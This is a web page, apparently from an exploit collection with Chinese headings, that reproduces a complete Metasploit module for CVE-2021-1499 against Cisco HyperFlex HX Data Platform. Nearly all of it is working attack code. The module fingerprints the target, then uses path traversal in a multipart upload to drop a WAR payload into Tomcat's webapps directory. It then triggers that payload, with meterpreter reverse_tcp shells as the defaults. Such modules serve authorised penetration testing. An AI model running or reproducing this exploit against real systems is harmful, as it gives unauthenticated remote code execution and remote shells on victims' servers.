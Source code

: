 <languages />

漏洞影响
--------

    Cisco HyperFlex HX Data Platform

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::FileDropper

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Cisco HyperFlex HX Data Platform unauthenticated file upload to RCE (CVE-2021-1499)',
            'Description' => %q{
              This module exploits an unauthenticated file upload vulnerability in
              Cisco HyperFlex HX Data Platform's /upload endpoint to upload and
              execute a payload as the Tomcat user.
            },
            'Author' => [
              'Nikita Abramov',      # Discovery
              'Mikhail Klyuchnikov', # Discovery
              'wvu',                 # Research and guidance
              'jheysel-r7'           # Metasploit Module
            ],
            'References' => [
              ['CVE', '2021-1499'], # HyperFlex HX File Upload
              ['URL', 'https://attackerkb.com/assessments/82738621-1114-4aba-990a-9ea007b05834']
            ],
            'DisclosureDate' => '2021-05-05',
            'License' => MSF_LICENSE,
            'Platform' => ['unix', 'linux'],
            'Arch' => [ARCH_X86, ARCH_X64, ARCH_JAVA],
            'Privileged' => false, # Privesc left as an exercise for the reader
            'Targets' => [
              [
                'Java Dropper',
                {
                  'Platform' => 'java',
                  'Arch' => ARCH_JAVA,
                  'Version' => Rex::Version.new('2.137'),
                  'Type' => :java_dropper,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'java/meterpreter/reverse_tcp',
                    'WfsDelay' => 10
                  }
                }
              ],
              [
                'Linux Dropper',
                {
                  'Platform' => 'linux',
                  'Arch' => [ARCH_X86, ARCH_X64],
                  'Type' => :linux_dropper,
                  'DefaultOptions' => {
                    'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp',
                    'WfsDelay' => 10
                  }
                }
              ]
            ],
            'DefaultTarget' => 0,
            'Notes' => {
              'Stability' => [CRASH_SAFE],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [IOC_IN_LOGS, CONFIG_CHANGES, ARTIFACTS_ON_DISK]
            }
          )
        )
        register_options([
          OptString.new('TARGETURI', [true, 'Base path', '/']),
          OptString.new('UPLOAD_FILE_NAME', [false, 'Choose a filename for the payload. (Default is random)', rand_text_alpha(rand(8..15))])
        ])
      end

      def check
        # The homepage behind SSL indicates whether the endpoint is running Cisco HyperFlex
        # Installer:         <title>Hyperflex Installer</title>
        # Installed Product: <title>Cisco HyperFlex Connect</title>
        # Both the installer and installed product are vulnerable
        res_ssl = send_request_cgi(
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path),
          'rport' => 443,
          'SSL' => true
        )
        unless res_ssl && res_ssl.body[%r{<title>(?:Hyperflex Installer|Cisco HyperFlex Connect)</title>}]
          return Exploit::CheckCode::Safe
        end

        # The vulnerability, however, lies on the HTTP endpoint /upload.
        res = send_request_cgi(
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path, 'upload')
        )
        if res && res.code == 400 && res.body.include?('Apache Tomcat') && res.headers['Server'] && res.headers['Server'].include?('nginx')
          return Exploit::CheckCode::Appears
        elsif res && res.code == 404
          return CheckCode::Safe
        end

        CheckCode::Unknown
      end

      def prepare_payload(app_base, jsp_name)
        print_status('Preparing payload...')
        war_payload = payload.encoded_war({ app_name: app_base, jsp_name: jsp_name }).to_s
        fname = app_base + '.war'
        post_data = Rex::MIME::Message.new
        post_data.add_part(fname, nil, nil, 'form-data; name="fname"')
        post_data.add_part('/upload', nil, nil, 'form-data; name="uploadDir"')
        post_data.add_part(war_payload,
                           'application/octet-stream', 'binary',
                           "form-data; name=\"#{jsp_name}\"; filename=\"../../../lib/tomcat7/webapps/#{fname}\"")
        post_data
      end

      def upload_payload(post_data)
        print_status('Uploading payload...')
        res = send_request_cgi(
          'uri' => normalize_uri(target_uri.path, 'upload'),
          'method' => 'POST',
          'data' => post_data.to_s,
          'ctype' => "multipart/form-data; boundary=#{post_data.bound}"
        )
        if res && res.code == 200 && res.body.to_s =~ /result.*filename:/
          print_good('Payload uploaded successfully')
        else
          fail_with(Failure::UnexpectedReply, 'Payload upload attempt failed')
        end

        register_file_for_cleanup('/var/lib/tomcat7/crossdomain.xml.war')
        register_file_for_cleanup('/var/lib/tomcat7/crossdomain.xml/')
      end

      def execute_payload(url)
        print_status("Executing payload... calling: #{url}")
        res = send_request_cgi(
          'uri' => url,
          'method' => 'GET'
        )
        if res && res.code == 200
          print_good('Payload executed successfully')
        else
          fail_with(Failure::UnexpectedReply, 'Payload execution attempt failed')
        end
      end

      def exploit
        app_base = 'crossdomain.xml'
        jsp_name = datastore['UPLOAD_FILE_NAME']
        data = prepare_payload(app_base, jsp_name)
        upload_payload(data)
        sleep(datastore['WfsDelay'])
        if target.name == 'Java Dropper'
          url = normalize_uri(target_uri.path, app_base.to_s)
        else
          url = normalize_uri(target_uri.path, app_base.to_s, "#{jsp_name}.jsp")
        end
        execute_payload(url)
      end
    end